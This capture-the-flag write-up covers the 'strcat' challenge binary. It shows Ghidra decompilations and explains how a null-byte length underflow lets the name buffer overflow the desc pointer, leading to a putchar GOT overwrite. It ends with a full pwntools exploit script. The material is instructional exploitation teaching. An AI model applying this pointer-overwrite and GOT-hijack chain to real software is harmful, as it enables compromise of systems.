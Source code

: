 ```yaml
---
layout: post
title: Backdoor Weekly writeup | strcat
tags: ['beginner','writeup','backdoor-weekly']
---
```


We are given a 64-bit binary with ASLR (but no PIE). Looking through the functionality of the binary, it asks us for a *name*, a *desc*(which was a malloc-ed chunk of 0x20 size) and then through a menu prompt, let's us concatenate stuff to this *name* buffer (which has a `maxlen` of `0x80` btw) and to the *desc* chunk. There is also a *win* fucntion which simply prints the flag on the screen. So, our objective is simply to call the win function.

One obvious vulnerability was a format string vulnerability in the `main` function where `printf(name)` and `printf(desc)` are used. Now, since these buffers are in the BSS and heap section, so a format string was somewhat tricky(You can try that though).

```c
ulong readline(void *param_1,int param_2)

{
  uint uVar1;
  size_t sVar2;
  
  read(0,param_1,(long)param_2);
  sVar2 = strlen(name);
  uVar1 = (int)sVar2 - 1;
  *(undefined *)((long)param_1 + (long)(int)uVar1) = 0;
  return (ulong)uVar1;
}
```
readline function disassembly using Ghidra

```c

void main(void)

{
  int iVar1;
  size_t sVar2;
  size_t sVar3;
  
  setup();
  puts("My strcat");
  maxlen = 0x80;
  printf("Name: ");
  iVar1 = readline(name,0x80);
  maxlen = maxlen - iVar1;
  desc = (char *)malloc(0x20);
  printf("Desc: ");
  readline(desc,0x20);
  do {
    while( true ) {
      print_menu();
      printf("> ");
      iVar1 = read_int32();
      if (iVar1 != 2) break;
      printf("Desc: ");
      readline(desc,0x20);
    }
    if (iVar1 == 3) {
      printf(name);
      printf(desc);
      putchar(10);
    }
    else {
      if (iVar1 == 1) {
        printf("Name: ");
        iVar1 = maxlen;
        sVar2 = strlen(name);
        sVar3 = strlen(name);
        iVar1 = readline(name + sVar3,(ulong)(uint)(iVar1 - (int)sVar2),sVar3);
        maxlen = maxlen - iVar1;
      }
      else {
        puts("Invalid");
      }
    }
  } while( true );
}

```
main function disassembly using ghidra

 Another (not so obvious) vulnerability was in the `readline` function which calculated the length of the string as `len = strlen(string)` and returned the value `len - 1` . Now in the `main` function, when we concatenate something to the *name* buffer, `maxlen` is updated to
`maxlen = maxlen - readline(name)`.
Oh, and one thing to remember, the *desc* pointer was located just **below** the *name* buffer. So, with an overflow in the buffer we could overwrite *desc* pointer and then edit this modified pointer through the menu. How do we get this overflow?



If we send `\x00` as the name, then `strlen(name)` would return `0x0` and the readline function would actually return `-1`, this would mean `maxlen = maxlen - (-1)` which effectively overflows our name buffer once, repeat this method to increase the `maxlen` buffer to say `0x90`. Now, we can simply overwrite the *desc* poiner to point it to a GOT function (I chose the `putchar@GOT` for this) and then with the help of *edit desc* option, overwrite this GOT entry to point to *win* function.


The entire exploit can then be written as:

```python
#!/usr/bin/python

from pwn import *

'''
[*]strcat'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

'''

local = False

if '-r' not in sys.argv:
    local = True

p = process('./strcat')
e = ELF('./strcat')


def init(name, desc):
    p.sendafter('Name:', name)
    p.sendafter('Desc:', desc)

def add_to_name(name):
    p.sendlineafter('>', str(1))
    p.sendafter('Name:', name)

def edit_desc(desc):
    p.sendlineafter('>', str(2))
    p.sendafter('Desc:', desc)

def viewall():
    p.sendlineafter('>', str(3))
    data = p.recvuntil('Menu',drop=True)


#Trigger the bug discussed above by sending '\x00' as the name
name_init = '\x00'
desc_init = "AAAAAAA"
init(name_init, desc_init)

# Continuosly increase maxlen to cover the desc pointer by sending null byte
for i in xrange(16):
    add_to_name('\x00')


# Finally overwriting the desc pointer with the GOT entry for putchar
payload = "A"*0x80 + '\x20\x20\x60\x20'
add_to_name(payload)

# Overwrite putchar@GOT with win function
payload = p64(e.symbols['win'])
edit_desc(payload)

# Use the print it all function in menu and you'll get the flag

p.interactive()


```
